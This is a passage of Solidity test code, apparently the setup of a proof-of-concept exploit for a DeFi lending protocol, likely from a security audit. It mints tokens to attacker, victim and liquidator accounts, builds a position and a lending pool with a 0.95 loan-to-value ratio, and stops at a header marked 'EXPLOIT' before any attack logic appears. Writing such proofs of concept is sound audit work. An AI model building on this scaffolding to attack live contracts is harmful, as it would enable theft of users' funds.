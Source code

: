 ```solidity
            collateralAsset.mint(attacker, amountOfAsset);

            borrowAsset.mint(victim, amountOfAsset);
            collateralAsset.mint(victim, amountOfAsset);

            borrowAsset.mint(liquidator, amountOfAsset);
            // == Finish minting assets

            // == Making the position
            vm.startPrank(attacker);
            bytes32 salt = bytes32(uint256(98));
            address owner = attacker;
            data = abi.encodePacked(owner, salt);
            (attPosition,) = protocol.portfolioLens().predictAddress(owner, salt);
            action = Action({ op: Operation.NewPosition, data: data });
            positionManager.process(attPosition, action);
            vm.stopPrank();

            vm.startPrank(positionManager.owner());
            positionManager.toggleKnownAsset(address(borrowAsset));
            // positionManager.toggleKnownAsset(address(collateralAsset)); // Already a known asset
            vm.stopPrank();
            // == Finish making the position

            // == victim making the pool
            // // ==== Setting the rateModel
            address rateModel = address(new LinearRateModel(1e18, 2e18));
            bytes32 RATE_MODEL_KEY = 0xc6e8fa81936202e651519e9ac3074fa4a42c65daad3fded162373ba224d6ea96;
            vm.prank(protocolOwner);
            registry.setRateModel(RATE_MODEL_KEY, rateModel);
            // // ==== Finished Setting the rate model
            vm.startPrank(victim);
            vicPoolId = pool.initializePool(
                victim, // owner
                address(borrowAsset), // asset to use
                1e30, // pool cap
                RATE_MODEL_KEY // rate model key in registry
                );
            // // ==== Setting the LTV
            riskEngine.requestLtvUpdate(vicPoolId, address(collateralAsset), 0.95e18); // Using the same asset to borrow one in this case
            riskEngine.acceptLtvUpdate(vicPoolId, address(collateralAsset));
            // // ==== Finish setting the LTv
            vm.stopPrank();
            // == Finished making the pool

            // == Attacker setting up the position
            vm.startPrank(attacker);
            data = abi.encodePacked(address(collateralAsset));
            action = Action({ op: Operation.AddToken, data: data });
            positionManager.process(
                attPosition,
                action
            );
            collateralAsset.transfer(address(attPosition), amountOfAsset/2);
            vm.stopPrank();
            // == Finish Attacker setting up the position
        }

        /**
        * =============================
        *           EXPLOIT
```